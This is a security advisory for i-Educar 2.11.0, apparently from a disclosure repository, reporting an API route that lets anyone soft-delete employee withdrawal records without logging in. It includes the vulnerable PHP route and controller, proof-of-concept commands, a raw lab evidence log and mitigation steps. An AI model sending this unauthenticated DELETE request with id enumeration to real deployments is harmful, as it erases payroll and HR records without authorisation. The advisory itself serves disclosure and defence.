

# Unauthenticated soft-delete of employee withdrawal records

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-306 Missing Authentication for Critical Function — https://cwe.mitre.org/data/definitions/306.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N` = **7.5 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `DELETE /api/employee-withdrawal/{id}` — parameter(s): `id`
- **Authentication:** none (verified unauthenticated)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

The API route `DELETE /api/employee-withdrawal/{id}` is registered without any
authentication middleware in the 2.11.0 release, so an anonymous HTTP client
can soft-delete employee withdrawal (`pmieducar.servidor_afastamento`) rows by
iterating numeric ids. The controller then sets `data_exclusao = now()` and
`ativo = 0` and returns `{"success": true}`. Deleted records silently disappear
from HR/payroll listings, and the operation is unauthenticated and
unattributable.

## Root cause

`routes/api.php:63` in the 2.11.0 tag:

```php
Route::delete('/employee-withdrawal/{id}', [EmployeeWithdrawalController::class, 'remove']);
```

The route sits between other public API routes and the `auth:sanctum` group,
but it is not inside it and carries no middleware of its own. The controller
performs no check either:

`app/Http/Controllers/Api/EmployeeWithdrawalController.php:14`

```php
public function remove($id): JsonResponse
{
    $employeeWithdrawal = EmployeeWithdrawal::query()->findOrFail($id);
    $employeeWithdrawal->update(['data_exclusao' => now(), 'ativo' => 0]);
    return response()->json(['success' => true]);
}
```

## Proof of concept

1. Run the i-explorar 2.11.0 lab (`lab/i-educar`, Docker Compose on
   `http://127.0.0.1:8080`).
2. Run the PoC. It seeds one disposable
   `pmieducar.motivo_afastamento` + `pmieducar.servidor` +
   `pmieducar.servidor_afastamento` row with `psql`, sends the request with no
   session or token, verifies the soft-delete in the database and removes the
   seeded row again:

   ```bash
   python3 i-explorar.py            # pick [03]
   # or standalone:
   python3 vulns/03-unauthenticated-employee-withdrawal-delete/poc.py --target http://127.0.0.1:8080
   ```

3. Expected result: `HTTP 200 {"success":true}` and the row state becomes
   `0|<timestamp>` (`ativo=0`, `data_exclusao` set).

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001718Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:18.221151+00:00
# host: -03
# target: http://127.0.0.1:8080
# lab: /home/pollo/disclosures/i-explorar/lab/i-educar
# lab commit: 898d2da77ce7fcd0fa8a3bb0bec629defcac1842
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc 'INSERT INTO pmieducar.motivo_afastamento (cod_motivo_afastamento, ref_usuario_cad, nm_motivo, data_cadastro, ativo, ref_cod_instituicao) VALUES (1, 1, '"'"'i-explorar poc'"'"', now(), 1, 1) ON CONFLICT DO NOTHING; INSERT INTO pmieducar.servidor (cod_servidor, ref_cod_instituicao, carga_horaria, data_cadastro, ativo) VALUES (1, 1, 40, now(), 1) ON CONFLICT DO NOTHING; INSERT INTO pmieducar.servidor_afastamento (ref_cod_servidor, sequencial, ref_ref_cod_instituicao, ref_cod_motivo_afastamento, ref_usuario_cad, data_cadastro, data_saida, ativo) VALUES (1, 1718, 1, 1, 1, now(), now(), 1) RETURNING id;'

--- psql output ---
INSERT 0 1
INSERT 0 1
1
INSERT 0 1
--- end psql output ---
# seeded withdrawal row id: 1

### unauthenticated DELETE /api/employee-withdrawal/1
HTTP 200

--- body ---
{"success":true}
--- end body ---
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc 'SELECT ativo || '"'"'|'"'"' || COALESCE(data_exclusao::text, '"'"''"'"') FROM pmieducar.servidor_afastamento WHERE id = 1;'

--- psql output ---
0|2026-09-10 21:17:18
--- end psql output ---
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc 'DELETE FROM pmieducar.servidor_afastamento WHERE id = 1;'

--- psql output ---
DELETE 1
--- end psql output ---
# finished_at: 2026-09-11T00:17:18.720020+00:00
```

## Screenshots



Caption: console capture on the vulnerable 2.11.0 release — unauthenticated
`DELETE` returning `{"success":true}` and the row flipping to `ativo=0` with
`data_exclusao` set.

## Impact

Any anonymous client that can reach the API can soft-delete arbitrary
withdrawal records by id enumeration, without credentials and without leaving
an attributable actor. Records disappear from ordinary queries
(`ativo = 0`), breaking payroll, HR reporting and compliance checks; later
hard-cleanup jobs could make the loss permanent.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)

## Mitigation

- Require authentication on the route and move it inside the `auth:sanctum`
  group (or add `->middleware(['auth'])`).
- Add an authorization check in `EmployeeWithdrawalController::remove()` so
  only HR/admin profiles can delete withdrawal records.
- Audit `pmieducar.servidor_afastamento` for unexpected `data_exclusao`/`ativo`
  values on any instance running the release.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-306: https://cwe.mitre.org/data/definitions/306.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/03-unauthenticated-employee-withdrawal-delete/README.md
